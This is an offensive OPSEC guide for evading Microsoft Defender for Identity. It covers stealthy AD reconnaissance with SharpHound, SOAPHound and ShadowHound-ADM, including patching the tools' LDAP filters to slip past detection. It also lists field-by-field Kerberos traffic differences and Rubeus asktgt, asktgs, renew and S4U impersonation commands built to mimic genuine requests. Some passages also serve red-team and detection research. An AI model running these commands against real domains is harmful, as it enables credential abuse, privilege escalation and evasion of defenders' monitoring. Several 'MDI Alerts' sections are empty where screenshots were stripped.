# Microsoft Defender for Identity - OPSEC Guide

> **Core principle:** Avoid talking to the DC as long as possible, and make traffic appear genuine by emulating legitimate Kerberos requests.

---

## Table of Contents

1. [Overview](#overview)
2. [Reconnaissance OPSEC](#reconnaissance-opsec)
3. [Kerberos Requests OPSEC](#kerberos-requests-opsec)
4. [Kerberoasting OPSEC](#kerberoasting-opsec)
5. [Identity Attack Paths](#identity-attack-paths)
6. [Logon Script Abuse](#logon-script-abuse)
7. [DCSync OPSEC](#dcsync-opsec)
8. [Forged Tickets OPSEC](#forged-tickets-opsec)
9. [Conclusion](#conclusion)
10. [To Do / Further Research](#to-do--further-research)
11. [References](#references)

---

## Overview

https://learn.microsoft.com/en-us/defender-for-identity/what-is

- MDI sensors are installed on DCs and Federation servers.
- Analysis and alerting is done in the Azure cloud.
- MDI can detect:
  - **Recon** - LDAP enumeration, BloodHound collection
  - **Compromised credentials** - Brute-Force, Kerberoasting
  - **Lateral movement** - PTH, OPTH
  - **Domain Dominance** - DCSync, Golden Ticket, Skeleton Key
  - **Exfiltration**




### Kerberos Flow Reference

**AS-REQ (Authentication Service Request)**



**TGS-REQ (Ticket Granting Service Request)**



### Detect MDI Presence

```bash
# Check for MDI sensor API endpoint
https://<your-workspace-name>sensorapi.atp.azure.com
# Example:
https://yhp0wsensorapi.atp.azure.com
```

---

## Reconnaissance OPSEC

### BloodHound - LDAP (SharpHound)

To make BloodHound collection stealthy:
- Remove noisy collection methods: RDP, DCOM, PSRemote, LocalAdmin
- Use `--ExcludeDCs` to avoid direct MDI detection

```bash
# Detected by MDI
SharpHound.exe --collectionmethods All

# More OPSEC-friendly, but still detected by MDI
SharpHound.exe --collectionmethods Group,GPOLocalGroup,Session,Trusts,ACL,Container,ObjectProps,SPNTargets,CertServices --excludedcs
```

**MDI Alerts:**


### ADExplorer

ADExplorer (Microsoft Sysinternals) is a signed tool for AD viewing and editing - a better alternative to LDAP recon.
- Reference: https://learn.microsoft.com/en-us/sysinternals/downloads/adexplorer
- A user can take a snapshot of AD and process it offline.
- The snapshot can be converted into BloodHound JSON files: https://github.com/c3c/ADExplorerSnapshot
- Reference: https://trustedsec.com/blog/adexplorer-on-engagements

**Drawbacks:**
- May fail in large domains with poor connectivity.
- When ADFS is deployed, ADExplorer triggers an MDI alert by reading the ADFS LDAP container.


> **Prefer ADWS over LDAP when possible** to avoid MDI detection.

### BloodHound - ADWS

#### SOAPHound

[SOAPHound](https://github.com/FalconForceTeam/SOAPHound) talks to Active Directory Web Services (ADWS - Port 9389) instead of sending LDAP queries.
- Almost no network-based detection by MDI.
- Retrieves all objects (`objectGuid=*`) then processes them locally.
- Limited LDAP queries - less chance of endpoint detection.

```bash
# Build a cache with basic info about domain objects
SOAPHound.exe --buildcache -c c:\users\vagrant\desktop\cache.txt

# Collect BloodHound-compatible data
SOAPHound.exe -c c:\users\vagrant\desktop\cache.txt --bhdump -o c:\users\vagrant\desktop\bloodhound-output --nolaps
```

**MDI detection:** MDI detected the original SOAPHound due to the LDAP filter `(!soaphound=*)`.


The filter is hardcoded in the source:


After modifying `(!soaphound=*)` in the source and recompiling, SOAPHound bypasses MDI:


**Drawbacks:**
- Requires introducing a binary to monitored endpoints.
- May fail against very large domains.

#### ShadowHound-ADM

[ShadowHound-ADM](https://github.com/Friends-Security/ShadowHound/blob/main/ShadowHound-ADM.ps1) is a PowerShell script leveraging the AD Module over ADWS.
- Uses native PowerShell - no need for known-malicious binaries like SharpHound.
- Talks to ADWS (Port 9389) instead of LDAP.


```bash
# AD Recon
Import-Module .\ShadowHound-ADM.ps1
ShadowHound-ADM -OutputFilePath "C:\users\consultant\documents\mhd\ldap_output.txt" -SplitSearch -LetterSplitSearch -Recurse

# ADCS Recon
ShadowHound-ADM -OutputFilePath "C:\users\consultant\documents\mhd\cert_output.txt" -Certificates
```

**MDI detection:** Detected due to specific LDAP filters in the original code.

For AD Recon:


For ADCS Recon:


After modifying the filters in the source, ShadowHound-ADM bypasses MDI:


**Convert outputs to BloodHound JSON:**

```bash
# Setup venv
python -m venv .venv
source .venv/bin/activate
pip3 install bofhound

# Convert
bofhound -i ~/workspace/ldap_output.txt -p All --parser ldapsearch
bofhound -i ~/workspace/certs_output.txt -p All --parser ldapsearch
```


---

## Kerberos Requests OPSEC

### AS-REQ

**Detection indicators - Rubeus vs Genuine:**

Genuine AS-REQ always sends a first request **without** pre-authentication, then a second one with it.



Rubeus skips the first unauthenticated AS-REQ:



**Encryption type:** Genuine traffic uses AES256 (etype 18). Tools default to RC4 (etype 23) - the most obvious indicator.

| Indicator | Rubeus | Genuine |
|-----------|--------|---------|
| First unauthenticated AS-REQ | Missing | Present |
| Encryption type | RC4 (23) | AES256 (18) |
| `canonicalize` bit | Disabled | Enabled |
| Supported etypes count | < 6 | 6 |
| `rtime` (renew time) field | Missing | Present |
| `addresses` field | Missing | Present |











**MDI Alerts:**


#### Emulate a Genuine AS-REQ

- Send a first unauthenticated AS-REQ, then a second one with `PA-ENC-TIMESTAMP, PA-DATA` encrypted with AES256.
- Enable `canonicalize` in KDC options.
- Include all 6 supported etypes.
- Include `rtime` and `addresses` fields.

```bash
# OPSEC-friendly
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe asktgt /domain:yhp0w.lan /dc:dc01.yhp0w.lan /user:mhd /aes256:05B2FCE16C6564D6A8XXXX7C72D5090D9CC3F66FC4F5E376FD8EBB76B8D0 /enctype:aes256 /opsec /nowrap /ptt

# Less OPSEC (MDI may detect - undetected in lab)
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe asktgt /domain:yhp0w.lan /dc:dc01.yhp0w.lan /user:mhd /rc4:F894F8DBEXXXX0421B73202F4A5160D /enctype:aes256 /opsec /nowrap /ptt /force

# Detected by MDI
Rubeus.exe asktgt /domain:yhp0w.lan /dc:dc01.yhp0w.lan /user:mhd /rc4:F894F8DBE06XXXXX73202F4A5160D
Rubeus.exe asktgt /domain:yhp0w.lan /dc:dc01.yhp0w.lan /user:mhd /aes256:05B2FCE16C6564D6A8XXXXXXC72D5090D9CC3F66FC4F5E376FD8EBB76B8D0
```

---

### TGS-REQ

Genuine logins always request several service tickets: `host`, `ldap`, `cifs`.



**Detection indicators - Rubeus vs Genuine:**

| Indicator | Rubeus | Genuine |
|-----------|--------|---------|
| `PA PAC OPTIONS` field | Missing | Present |
| `canonicalize` bit | Disabled | Enabled |
| Supported etypes count | < 5 | 5 |
| `cname` field | Included | Absent |
| `till` field | Incorrect | Proper |
| `enc-authorization-data` | Missing | Present |



**MDI Alert:**


For the Authenticator (cksum, cusec, seq number): unlikely to be monitored as decrypting all authenticators on the fly would impose massive overhead.





**Unconstrained delegation:** When requesting a TGS for a service with unconstrained delegation, the TGS-REP sets the `ok-as-delegate` bit, triggering a second TGS-REQ for `krbtgt/domain.com` to get a forwardable TGT.





To emulate genuine traffic, also issue a TGS-REQ for `krbtgt/domain.com`.



#### Emulate a Genuine TGS-REQ

- Use AES256 encryption.
- Include `PA PAC OPTIONS` field.
- Enable `canonicalize` in KDC options.
- Include all 5 supported etypes.
- Remove the `cname` field.
- Set a proper `till` field.
- Include `enc-authorization-data`.
- Request multiple service tickets (`ldap`, `host`, `cifs`).

```bash
# OPSEC-friendly (with existing TGT)
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe asktgs /domain:yhp0w.lan /dc:dc01.yhp0w.lan /user:Administrator /enctype:aes256 /opsec /service:ldap/dc01.yhp0w.lan,host/dc01.yhp0w.lan,cifs/dc01.yhp0w.lan /nowrap /ptt /ticket:doIFcjCCBW6gAwIBBaEDAgEWooIEYz.............................xPQ0FMqSgwJqADAgECoR8wHRsGa3JidGd0GxNTRVZFTktJTkdET01

# Detected by MDI
Rubeus.exe asktgs /domain:yhp0w.lan /dc:dc01.yhp0w.lan /user:mhd /service:ldap/dc01.yhp0w.lan,http/dc01.yhp0w.lan,host/dc01.yhp0w.lan,cifs/dc01.yhp0w.lan /nowrap /ticket:doIFcjCCBW6gAwIBBaEDAgEWooIEYz.............................xPQ0FMqSgwJqADAgECoR8wHRsGa3JidGd0GxNTRVZFTktJTkdET01

# OPSEC one-shot AS-REQ + TGS-REQ (x3)
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe asktgs /domain:yhp0w.lan /dc:dc01.yhp0w.lan /user:mhd /aes256:05B2FCE16C6564D6A8B07B6EC67C72XXXXXXXXXXF5E376FD8EBB76B8D0 /enctype:aes256 /opsec /service:ldap/dc01.yhp0w.lan,host/dc01.yhp0w.lan,cifs/dc01.yhp0w.lan /nowrap /ptt

# TGT Renew (based on a TGT from an OPSEC AS-REQ)
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe renew /domain:yhp0w.lan /dc:dc01.yhp0w.lan /user:mhd /enctype:aes256 /nowrap /ptt /ticket:........
```

---

### S4U2Self

Difference between genuine and Rubeus S4U2Self requests:


#### Emulate a Genuine S4U2Self TGS-REQ

- Include `PA-S4U-X509-USER`.
- Enable `canonicalize` in KDC options.
- Include all 5 supported etypes.
- Remove the `cname` field.
- Set a proper `till` field (`+15min`, not Sept 2037).
- Use correct PA username name-type: `Enterprise-PRINCIPAL` (not NT Principal).
- Use correct sname name-type: `NT Principal`.

```bash
# OPSEC-friendly
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe s4u /self /domain:yhp0w.lan /dc:dc01.yhp0w.lan /user:svc_mhd /aes256:05B2FCE16C6564D6A8B07BXXXXXXXX3F66FC4F5E376FD8EBB76B8D0 /impersonateuser:Administrator /altservice:svc/srv01.yhp0w.lan /enctype:aes256 /opsec /nowrap /ptt

# Less OPSEC (MDI may detect - undetected in lab)
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe s4u /self /domain:yhp0w.lan /dc:dc01.yhp0w.lan /user:svc_mhd /rc4:F894F8DBE0XXXXXX3202F4A5160D /impersonateuser:Administrator /altservice:svc/srv01.yhp0w.lan /enctype:aes256 /opsec /nowrap /ptt
```


---

### S4U2Proxy

Difference between genuine and Rubeus S4U2Proxy requests:



